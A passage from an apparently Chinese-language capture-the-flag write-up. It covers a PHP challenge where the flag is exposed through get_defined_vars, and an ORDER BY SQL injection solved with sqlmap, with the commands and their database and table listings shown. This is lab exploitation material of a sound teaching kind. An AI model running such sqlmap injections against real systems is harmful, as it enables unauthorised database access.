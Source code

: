 ```php
            echo $real_flag;//echo $flag
        }
    }
    function __invoke(){
        echo 'want to use me?';
        $this->GiveYouTheFlag();
    }
}
echo rand().'<br>';
$_flag = new jam_flag;

if(isset($_POST['flag']) && $_POST['flag'] === 'I want the flag'){
        include 'real_flag.php';
    $_flag->GiveYouTheFlag();
}
?>
```

需要满足 `isset($_POST['flag']) && $_POST['flag'] === 'I want the flag'`
`$secret === $_GET['a']`，这里可以爆破 6 位随机数 a，但是机率太小了。
这里还可以利用 `get_defined_vars` 函数:

![](/assets/images/move/20191101232925.png)

此时利用思路如下:

```php
POST I want the flag -> include 'real_flag.php' -> get_defined_vars -> $flag
```

获取到 `flag{5a99aed1c516d643a297710de381bc70}`.


## Web4 注入初体验

这是一题关于 order 的注入，很简单的哦！同学们尝试下注入吧！ 

输入 `id desc`，出现降序排序，直接 sqlmap 即可一把梭哈。

```bash
sqlmap -r 'sqlmap_order_by' --dbs --level 3 --thread 9 
available databases [3]:
[*] information_schema
[*] shop
[*] test

sqlmap -r 'sqlmap_order_by' -D shop  --tables --level 3 --thread 9 
Database: shop
[2 tables]
+-------+
| flag  |
| goods |
+-------+
```